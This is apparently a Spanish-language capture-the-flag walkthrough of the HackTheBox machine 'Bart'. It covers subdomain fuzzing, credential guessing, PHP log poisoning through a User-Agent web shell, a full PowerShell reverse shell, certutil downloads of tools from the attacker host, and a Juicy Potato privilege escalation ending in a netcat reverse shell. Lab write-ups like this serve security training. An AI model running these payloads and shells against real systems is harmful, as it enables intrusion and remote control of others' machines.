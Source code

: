 # 10.10.10.81 - Bart
![Bart](https://user-images.githubusercontent.com/96772264/208634293-52ab7572-4f52-466c-bae8-ff736d1350e9.png)
--------------------
# Part 1: Reconocimiento inicial:

Puertos abiertos 80(http):
```console
└─$ whatweb http://10.10.10.81
HTTPServer[Microsoft-IIS/10.0], PHP[7.1.7], RedirectLocation[http://forum.bart.htb/], X-Powered-By[PHP/7.1.7]
ERROR Opening: http://forum.bart.htb/ - no address for forum.bart.htb
```
Ya el reconocimiento nos dice que hay dos subdominios interesantes:

```console
└─$ whatweb http://forum.bart.htb/
Email[d.simmons@bart.htb,h.potter@bart.htb,info@bart.htb,r.hilton@bart.htb,s.brown@bart.loca,s.brown@bart.local], HTML5, HTTPServer[Microsoft-IIS/10.0], JQuery, MetaGenerator[WordPress 4.8.2], Microsoft-IIS[10.0]

└─$ wfuzz -t 200 --hw=5628 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://bart.htb/FUZZ/
000000054:   200        548 L    2412 W     35529 Ch    "forum"
└─$ wfuzz -t 200 --hw=5628 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://bart.htb/FUZZ.php
000000002:   302        0 L      0 W        0 Ch        "index"
```

Si entramos en /forum nos da error, forum.bart nos da al mismo sitio.
![bart1](https://user-images.githubusercontent.com/96772264/208634337-5d471098-a648-49aa-b479-e706902572c0.PNG)

```console
└─$ wfuzz -c --hw=0 -w $(locate subdomains-top1million-5000.txt) -H "Host: FUZZ.bart.htb" -u http://bart.htb/ -t 100

000000023:   200        548 L    2412 W     35529 Ch    "forum"
000000099:   200        80 L     221 W      3423 Ch     "monitor"
```
--------------------
# Part 2: User Leak

Nos dan un panel de login. 
![bart2](https://user-images.githubusercontent.com/96772264/208634424-8b2e5fbc-860c-485e-b742-4e2a12fc2271.PNG)

```
/POST a http://monitor.bart.htb/
{"csrf":"9cc6a04531b9c32001c04abc517839b1ddd6b040190b2daf8e81e49ec5bd3de8","user_name":"admin","user_password":"admin","action":"login"}
```
Por ser php intento bypasearlo con cosas como password=true (type juggling) o las inyecciones sql tipicas ```' or 1=1--```
Como no hay manera buscamos mas directorios.
```console
└─$ wfuzz -t 200 --hw=12 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://monitor.bart.htb/FUZZ.php
000000002:   200        80 L     221 W      3423 Ch     "index"
000000702:   200        90 L     283 W      3714 Ch     "install"
000001477:   200        0 L      0 W        0 Ch        "config"
└─$ wfuzz -t 200 --hw=12 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://monitor.bart.htb/FUZZ/
000000256:   200        7 L      10 W       140 Ch      "static"
000000770:   200        7 L      10 W       140 Ch      "src"
000002410:   200        7 L      10 W       140 Ch      "cron"
```

install.php nos resuelve a una web que dice de instalar el programa, bajo ```/install.php?action=``` se efectuan acciones como "install" o "config"
(fuzee pero no hay mas)

![bart3](https://user-images.githubusercontent.com/96772264/208634495-7ce17ce9-0645-4ddd-9d81-d6a2a719e022.PNG)

Volviendo al login, La parte de **forgot password** nos pide un "nombre"

En la web de bart salian los nombres de tres personas (mas una cuarta oculta en el codigo fuente):
![bart4](https://user-images.githubusercontent.com/96772264/208634535-cade2ec7-cc19-4f7d-bfac-f9aae651dcff.PNG)
```console
└─$ curl -s http://bart.htb/forum/ | grep -E "name|mail" | tr -d "\n" > users.txt
```
```
Samantha Brown -> s.brown@bart.local
Daniel Simmons -> d.simmons@bart.htb  -> existe
Robert Hilton -> r.hilton@bart.htb
Harvey Potter -> h.potter@bart.htb    -> existe
```
En la parte de login como contraseña pruebo antes de hacer fuzzing, tanto "bart" como los apellidos de los  usaurios. Resuelve el nombre "harvey" con la 
contraseña "potter" (Si no, habria que hacerse un script de python arrastrando el token)
![bart5](https://user-images.githubusercontent.com/96772264/208634679-065140f6-7ebb-42d8-9191-f321281978d2.PNG)

--------------------
# Part 3: PHP Log Poisoning

En /servers sale un nuevo dominio ```internal-01.bart.htb```
Nos volvemos a topar con otro panel de login

/login.php -> "uname":"test","passwd":"test","submit":"Login"
```console
└─$ curl -X POST -s "http://internal-01.bart.htb/simple_chat/login.php" -d "uname=test&passwd=test&submit=Login"
# Nada
```
```console
└─$ wfuzz -t 200 --hw=12 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt "http://internal-01.bart.htb/simple_chat/FUZZ.php"
000000001:   302        0 L      0 W        0 Ch        "index"
000000051:   302        0 L      0 W        0 Ch        "register"
000000039:   302        0 L      0 W        0 Ch        "login"
000000324:   302        2 L      0 W        4 Ch        "chat"
000001144:   302        0 L      0 W        0 Ch        "logout"

└─$ curl -s "http://internal-01.bart.htb/simple_chat/register.php" -d "uname=cucuxii&passwd=cucuxii123"
# EN el navegador da error pero aquí funciona.
```

Al poner las creds otra vez en el panel de registro, "cucuxii" "cucuxii123" entramos.
En network salen peticiones /POST a "/simple-chat/chat.php" ```@harvey: Tio! No pongas codigo aquí, es un servidor en producción!```
Posibles inyecciones de todo tipo no funionan ```<script>alert(1)</script>```, ```{{7*7}}```
![bart6](https://user-images.githubusercontent.com/96772264/208634792-57fe24ca-49d2-49a9-abe5-732490ea68a3.PNG)

Si miramos el código fuente:
```console
└─$ curl -s http://internal-01.bart.htb/ -H "Cookie: PHPSESSID=npju0k7b5bireh5g8gld8frtsb" > main.js
# http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey
```
![bart8](https://user-images.githubusercontent.com/96772264/208634848-2eabd3a1-683e-4e2a-a744-011961277934.PNG)
Esta ruta tiene dos parametros "archivo" y "usuario". Porbamos un LFI...
```
http://internal-01.bart.htb/log/log.php?filename=C:\Windows\System32\Drivers\etc\hosts&username=daniel # permision denied
http://internal-01.bart.htb/log/log.php?filename=log.txt&username=daniell -> 0
http://internal-01.bart.htb/log/log.php?filename=log.txt&username=daniel -> 1
```
Cambiamos cosas como log.txt -> log.php o test.php
```console
└─$ curl -s 'http://internal-01.bart.htb/log/log.php?filename=log.php&username=daniel'
└─$ curl -s 'http://internal-01.bart.htb/log/log.php?filename=test.php&username=daniel'
1[2022-12-20 11:34:03] - daniel - curl/7.84.0
└─$ curl -s 'http://internal-01.bart.htb/log/test.php'  
[2022-12-20 11:34:19] - daniel - curl/7.84.0  
```
Parece que nos crea el archivo que se pasa en el parámetro "filename"
```console
└─$ curl -s 'http://internal-01.bart.htb/log/log.php?filename=test.php&username=daniel' \
> -H 'User-Agent: <?php system("whoami")?>'
└─$ curl -s 'http://internal-01.bart.htb/log/test.php'
[2022-12-20 11:34:19] - daniel - curl/7.84.0[2022-12-20 11:37:07] - daniel - curl/7.84.0[2022-12-20 11:37:40] - daniel - nt authority\iusr
```
Se da un "Log Poisoning" que consiste en iinyectar codigo en los logs que luego se interpreta
```console
└─$ curl -s 'http://internal-01.bart.htb/log/log.php?filename=testt.php&username=daniel' -H 'User-Agent: <?php system($_REQUEST['cmd']); ?>'
└─$ curl -s 'http://internal-01.bart.htb/log/testt.php?cmd=whoami'
[2022-12-20 11:46:09] - daniel - nt authority\iusr

└─$ curl -s "http://internal-01.bart.htb/log/testt.php?cmd=powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.14.16%27%2C666%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22"
```
Esta es la version urlencodeada de la [reverse shell de una sola linea](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3):
```
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.16',666);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
--------------------
# Part 4: Juicy Potato

Ya estamos en el sistema: 
Si empezamos con la enumeración, enseguida encontramos algo sospechoso:
```console
PS C:\Windows\Temp> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
```
Este privilegio "SeImpersonatePrivilege" nos permite explotar el [juicy potato](https://github.com/ohpe/juicy-potato/releases)

```console
PS C:\Windows\Temp\Prueba> certutil.exe -f -urlcache -split http://10.10.14.16/JP.exe
PS C:\Windows\Temp\Prueba> ./JP.exe -t * -l 6666 -p C:\Windows\System32\cmd.exe -a "/c net user cucuxii cucuxii123 /add" # error
```
Hay que encontrar un CLSID para windows 10 Pro. [Aqui se encuentran](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md)
```console
PS C:\Windows\Temp\Prueba> ./JP.exe -t * -l 6666 -p C:\Windows\System32\cmd.exe -a "/c net user cucuxii cucuxii123 /add" -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}"
PS C:\Windows\Temp\Prueba> certutil.exe -f -urlcache -split http://10.10.14.16/nc.exe
PS C:\Windows\Temp\Prueba> ./JP.exe -t * -l 6666 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\Prueba\nc.exe -e cmd 10.10.14.16 443" -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}"

└─$ sudo nc -nlvp 443
C:\Windows\system32>whoami
```
Ahora solo falta encontrar la flag con el comando ```cmd /c dir /r /s user.txt``` Esta en  C:\Users\h.potter\Desktop

